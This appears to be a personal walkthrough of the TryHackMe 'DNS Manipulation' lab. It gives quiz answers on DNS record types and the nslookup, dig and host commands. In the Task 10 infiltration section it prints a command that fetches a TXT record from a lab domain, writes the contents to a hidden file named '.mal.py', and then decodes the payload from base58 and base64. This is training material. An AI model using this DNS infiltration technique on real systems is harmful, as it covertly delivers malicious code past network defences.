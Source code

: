 ```yaml
---
layout: post
title: DNS Manipulation - TryHackMe Room
---
```


Room: [DNS Manipulation](https://tryhackme.com/room/dnsmanipulation)

# Task 4: What is DNS?
### If you were on Windows, what command could you use to query a txt record for 'youtube.com'? 

```bash
nslookup -type=TXT domaintosearch.com 
```

### If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

```bash
dig domaintosearch.com txt
```

### AAAA stores what type of IP Address along with the hostname?

```bash
IPv6
```

### Maximum characters for a DNS TXT Record is 256. (Yay/Nay)

```bash
nay
```

### What DNS Record provides a domain name in reverse-lookup? (Research)

```bash
PTR
```


### What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2) (Research)
- in your Linux terminal enter the following command replacing the IP of interest

```bash
host IP_ADDRESS
```
# Task 5 What is DNS Exfiltration? 
### What is the maximum length of a DNS name?
Check this [article](https://en.wikipedia.org/wiki/Domain_Name_System)

# Task 7 : Exfiltration Practice
- login with SSH provided 

# Task 10 : Infiltration Practice
- this is what the script is doing
- decode from base 58 and decode the output from base64

```bash
 nslookup -type=txt badbaddoma.in |grep "ig" |cut -d \" -f2 > .mal.py

echo "XYZSTRINGRECEIVED==" |base58 -d |base64 -d
```

